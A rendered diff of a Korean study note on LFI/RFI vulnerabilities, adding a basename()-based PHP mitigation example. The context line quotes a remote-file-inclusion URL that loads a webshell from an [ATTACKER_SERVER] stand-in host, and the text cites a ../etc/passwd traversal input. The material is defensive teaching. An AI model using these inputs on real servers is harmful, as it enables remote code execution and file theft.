

Before and after one commit to Echo-H4C/Echo, a Markdown page: 취약점 정리/LFI,RFI.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/취약점 정리/LFI,RFI.md
+++ b/취약점 정리/LFI,RFI.md
@@ -98,6 +98,23 @@ http://target.com/index.php?file=http://[ATTACKER_SERVER]/webshell.php?cmd=ls
 
 서버 내부의 다른 파일에 접근하기 위해 필요한 ../ 특수문자와 PHP Wrapper(php://, file:// 등)를 필터링한다. 다만, 해당 문자열들만 필터링할 경우 서버의 소스코드 파일은 보호할 수 없어 완벽한 대응 방안은 아니다.
 
+basename() 함수를 사용하여 검증할 수도 있다. basename() 함수는 인자로 받는 파일 경로에서 마지막 구성 요소(파일 이름 또는 디렉터리명)를 반환한다. 따라서, 공격자가 ../../../../../etc/passwd를 입력한다고 하면 앞의 ../../../../../etc/은 제외되고 passwd만 남게 되므로 서버의 상위 디렉터리에 존재하는 파일에 접근하는 것을 막을 수 있다.
+```PHP
+<?php
+    $file = $_GET['file'] ?? '';
+
+    // basename()은 경로에서 파일명 부분만 extractiong한다.
+    // 예: "../../../etc/passwd" -> "passwd"
+    $safe_file = basename($file);
+
+    $filepath = "uploads/" . $safe_file;
+
+    if (file_exists($filepath)) {
+        include($filepath);
+    }
+?>
+```
+
 ## 3.3. 서버 설정 변경 (PHP)
 
 php.ini 파일에서 다음과 같이 설정한다.
````
